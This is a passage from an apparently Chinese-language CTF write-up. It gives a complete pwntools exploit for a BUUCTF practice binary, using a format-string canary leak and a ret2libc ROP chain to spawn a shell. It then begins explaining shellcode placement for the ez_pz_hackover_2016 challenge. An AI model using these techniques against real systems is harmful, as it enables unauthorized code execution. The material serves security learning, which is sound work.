 完整exp如下：

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 27262)
e = ELF('./pwn1')
libc = ELF('libc-2.23.so')
p.recvuntil("help u!\n")
payload1 = b'%7$p'
p.sendline(payload1)
p.recvuntil('0x')
canary = u64(p.recv(16).decode("hex")[::-1])
print(hex(canary))
p.recvuntil("u story!\n")
puts_plt_addr = e.plt['puts']
puts_got_addr = e.got['puts']
vuln_addr = e.symbols['vuln']
pop_rdi_ret = 0x0400993
payload2 = b'a' * 24 + p64(canary) + b'a' * 8 + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(vuln_addr)
p.sendline(payload2)
puts_true_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
print(hex(puts_true_addr))
libc_base_addr = puts_true_addr - libc.symbols['puts']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search('/bin/sh').next()
payload3 = b'a' * 24 + p64(canary) + b'a' * 8 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_true_addr)
p.recvuntil("u story!\n")
p.sendline(payload3)
p.interactive()
```

# ez_pz_hackover_2016

shellcode在ebp之前写不下的时候，可以写到ebp后面……

首先，经典动态调试找偏移，断点下载memcpy函数之后，可以看到在vul函数中，我们的输入'crashme'在距离ebp 0x16的距离，这样的话其实栈空间并不大，从crashme结束的位置到ebp的位置是不够我们写shellcode的，所以把shellcode的位置放到ebp后面

![image-20210408163236568](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739314.png)

![image-20210408163518505](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739503.png)

我决定把shellcode放在0xff90c4f0的位置（ebp + 0x8），然后计算这个地方和泄露的栈地址之间的偏移量位0x1C

![image-20210408164419433](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739145.png)

故shellcode_addr = stack_addr - 0x1C

再将ebp+0x4的位置的值改为shellcode_addr，即可跳转去执行shellcode
